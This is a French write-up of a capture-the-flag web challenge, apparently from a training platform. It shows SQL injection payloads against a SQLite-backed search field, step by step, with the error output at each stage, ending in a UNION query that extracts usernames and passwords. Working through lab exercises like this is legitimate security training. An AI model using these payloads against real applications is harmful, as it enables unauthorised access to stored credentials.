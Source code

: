 Après quelques recherches sur l’application, il apparaît que le champ de recherche semble être injectable.
```
' ERROR
```
Ce qui nous renvoie une magnifique erreur sqlite3 :
```
Warning: SQLite3::query(): Unable to prepare statement: 1, near "ERROR": syntax error in /challenge/web-serveur/ch19/index.php on line 150
near "ERROR": syntax error
```
Sachant que l’on a à faire à du sqlite3, on peut essayer de déterminer des informations sur la base.
```
' UNION SELECT name FROM sqlite_master WHERE type='table'--
```
Cependant, le nombre de colonnes semble être incorrect comme l’indique le retour de la base ci dessous :
```
Warning: SQLite3::query(): Unable to prepare statement: 1, SELECTs to the left and right of UNION do not have the same number of result columns in /challenge/web-serveur/ch19/index.php on line 150
SELECTs to the left and right of UNION do not have the same number of result columns
```
Tentons de rajouter un champ, qui pourrait nous être utile, dans la requête :
```
' UNION SELECT sql,name FROM sqlite_master WHERE type='table'--
```
Ici, nous avons le bon nombre de colonnes et la requête se fait sans accro. Parmi les informations récoltées, nous avons
```
CREATE TABLE news(id INTEGER, title TEXT, description TEXT) (news)
CREATE TABLE users(username TEXT, password TEXT, Year INTEGER) (users)
```
Avec le nom de la table des utilisateurs ainsi que les colonnes la composant, il ne nous reste plus qu’une requête à faire :
```
' UNION SELECT username,password FROM users--
```

Ainsi on obtiens la liste des utilisateurs et leurs mot de passe, dont celui de l’administrateur, qui est le flag de ce challenge.
